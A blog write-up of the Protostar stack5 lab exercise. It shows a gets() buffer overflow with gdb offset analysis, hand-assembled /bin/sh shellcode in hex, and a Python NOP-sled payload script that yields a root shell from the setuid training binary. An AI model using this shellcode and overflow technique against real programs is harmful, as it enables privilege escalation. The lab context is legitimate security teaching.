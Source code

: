 ```yaml
---
layout: post
title:  "Protostar stack5 challenge"
date:   2018-04-14 23:37:36 +0530
categories: security protostar
---
```



Buffer overflow attack [Stack5][stack-5] but here we are not given a win free function to direct control to
So we will have to use shell code which should be called upon execution of the program.
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
  char buffer[64];
  gets(buffer);
}
{% endhighlight %}

As usual `gets` is the vulnerable function here.
As seen from stack4 exercise first we need to find where RET return address is located in main.
{% highlight nasm %}
$ gdb /opt/protostar/bin/stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
{% endhighlight %}

`$ebp` is base pointer. `$esp` is stack pointer which points to top of stack
When a new function is called, the calling function `$ebp` is pushed onto the stack 
{% highlight nasm %}0x080483c4 <main+0>:    push   ebp{% endhighlight %}
Then new $ebp points to current `$esp`
{% highlight nasm %}0x080483c5 <main+1>:    mov    ebp,esp{% endhighlight %}
Then space for local variables is created.
Also `$eip`(not seen here) points to current instruction pointer, ie the current
instruction being executed.
Now the RET address(where control should return after exiting main commonly
some C library) is stored just after where `$ebp` is stored.

We add few break points and 
{% highlight nasm %}
(gdb) b *0x080483c4
Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
(gdb) b *0x080483d4
Breakpoint 2 at 0x80483d4: file stack5/stack5.c, line 10.
(gdb) b *0x080483d9
Breakpoint 3 at 0x80483d9: file stack5/stack5.c, line 11.
{% endhighlight %}
Then run
{% highlight nasm %}
(gdb) r
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd74) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info r
eax            0xbffffd74       -1073742476
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffccc       0xbffffccc
ebp            0xbffffd48       0xbffffd48
esi            0x0      0
edi            0x0      0
eip            0x80483c4        0x80483c4 <main>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}


Here we see $ebp has 0xbffffd78. This is $ebp value of caller
 which will be now pushed to stack. (0x080483c4 <main+0>:    push   ebp)
{% highlight nasm %}
(gdb) c
Continuing.

Breakpoint 2, 0x080483d4 in main (argc=1, argv=0xbffffd74) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) infor
Undefined command: "infor".  Try "help".
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc70       0xbffffc70
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x80483d4        0x80483d4 <main+16>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
Here we see $ebp is 0xbffffcc8. This was due to `(mov    ebp,esp)`
and is basically where callers $ebp is stored.
This is break just before calling gets(buffer).
In intel the address of buffer is saved to top of stack $esp just before calling func.
So $esp points to buffer location ie $esp contain the location of buffer
{% highlight nasm %}
(gdb) x/x $esp
0xbffffc70:     0xbffffc80
{% endhighlight %}
That means buffer is located as 0xbffffc80.

Since gets would start input from this address, we attempt to over this buffer just
so that we RET is overwritten with our shellcode location. And when control returns from
main our shellcode is executed.
Start of RET is $ebp+4
So we need to overwrite dummy chars upto RET ie start-RET - start-buffer
ie 0xbffffcc8 + 4 - 0xbffffc80 = 76(base 10)


Ok continue
In a separate terminal and rerun with this as input

{% highlight nasm %}
$  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' > temp.txt
(gdb) r < /home/user/temp.txt
Starting program: /opt/protostar/bin/stack5 < /home/user/temp.txt

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0xbffffc80       -1073742720
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcd0       0xbffffcd0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
We see $eip which is the return pointer is overwritten as 0xdeadbeef and we get SIGSEGV.
So we have 76 chars before RET where we can store our shell code or we can also store it after RET.
We will try to store it before RET.

First we begin by creating shell-code which would spawn a shell.
I used this link to get shell-code. [shellcode5.html][shellcode5] 

{% highlight nasm %}
;shellex.asm
[SECTION wtext write]

global _start


;shellex.asm
section wtext write

global _start


_start:
    xor eax, eax
    mov al, 70                    ; setreuid is syscall 70
    xor ebx, ebx
    xor ecx, ecx
    int 0x80

    jmp short    mycall           ; Immediately jump to the call instruction

    shellcode:
        pop        ecx                ; Store the address of "/bin/sh" in ESI
        xor        eax, eax           ; Zero out EAX
        mov byte   [ecx + 7], al      ; Write the null byte at the end of the string

        mov dword  [ecx + 8],  esi    ; [ecx+8], i.e. the memory immediately below the string
                                      ;   "/bin/sh", will contain the array pointed to by the
                                      ;   second argument of execve(2); therefore we store in
                                      ;   [ecx+8] the address of the string...
        mov dword  [ecx + 12], eax    ; ...and in [ecx+12] the NULL pointer (EAX is 0)
        mov        al,  0xb           ; Store the number of the syscall (11) in EAX
        lea        ebx, [ecx]         ; Copy the address of the string in EBX
        lea        edx, [ecx + 12]    ; Third argument to execve(2) (NULL pointer)
        lea        ecx, [ecx + 8]     ; Second argument to execve(2)
        int        0x80               ; Execute the system call

    mycall:
        call       shellcode          ; Push the address of "/bin/sh" onto the stack
        db         "/bin/sh"
{% endhighlight %}

Most of the shellcode is same as given in link but i had to add [SECTION wtext write]
atop the code. Something to do with make stack section writable as mentioned here.
[Discussion in stackoverflow][so-discussion]

nasm -felf get_shell.asm
ld -melf_i386 -o get_shell get_shell.o
./get_shell
So we get a shell now.
We need to get shell code as hex. Using objdump and regex dump from my SE course
{% highlight shell_session %}
madhurrawat@madhurrawrat-VirtualBox:~/Desktop/shellcode$ objdump -D ./get_shell.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
{% endhighlight %}

So we prepare a python script to prepare payload.
{% highlight python %}
#!/usr/bin/env python
offset = 72
shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31 \
\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d \
\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

nopsled = "\x90" * (offset - len(shellcode))
ret = "\xb0\xfc\xff\xbf"


payload = nopsled + shellcode + "JJJJ" + ret

print payload
{% endhighlight %}

So basically we are overwriting $ebp with "JJJJ" ie frame pointer.
nopsled + shellcode should total 72.

BUT wait why is ret here as 0xbffff790. Shouldn't it be start of our
buffer ie 0xbffffc80. Well i tried with RET as 0xbffffc80 but got SEG
Maybe because of this reason mentioned in [link][core-need]

`| In gdb stack addresses aren't the same as in a live run !!!    |`

So better we analyze core file:

So we login as root in protostar
{% highlight shell_session %}
root@protostar:/# echo 2 > /proc/sys/fs/suid_dumpable
root@protostar:/# cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
root@protostar:/# ulimit -c unlimited
root@protostar:/# cd /opt/protostar/bin
root@protostar:/opt/protostar/bin#  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' | ./stack5
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# ls /tmp
core.11.stack5.1817
root@protostar:/opt/protostar/bin# gdb -q -c /tmp/core.11.stack5.1817
{% endhighlight %}
{% highlight nasm %}
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()

(gdb) info r
eax            0xbffffcb0       -1073742672
ecx            0xbffffcb0       -1073742672
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffd00       0xbffffd00
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}

Ok. so we overwrote RET properly coz $eip is 0xdeadbeef
Further we examine are where we wrote A 76 times
{% highlight nasm %}
(gdb) x/30x $esp-96
0xbffffca0:     0xbffffcb0      0xb7ec6165      0xbffffcb8      0xb7eada75
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffce0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcf0:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbffffd00:     0x00000000      0xbffffda4      0xbffffdac      0xb7fe1848
0xbffffd10:     0xbffffd60      0xffffffff
{% endhighlight %}
So we see in coredumps buffer is starting from 0xbffffcb0.
Since we will be starting from 0xbffffcb0 our RET should now point to it, ie
beginning of our shell code.

{% highlight shell_session %}
$ python pwn5.py > payload5
$  (cat payload5; cat) | /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
So we successfully spawned a shell as root.
We could spawn a shell as root coz this is a setuid program.

[stack-5]: https://exploit-exercises.com/protostar/stack5/
[shellcode5]: http://www.kernel-panic.it/security/shellcode/shellcode5.html
[so-discussion]: https://chat.stackoverflow.com/rooms/91636/discussion-between-jester-and-czifro
[core-need]: https://github.com/flankerhqd/protostar-solutions/blob/master/Stack%205/stack5.txt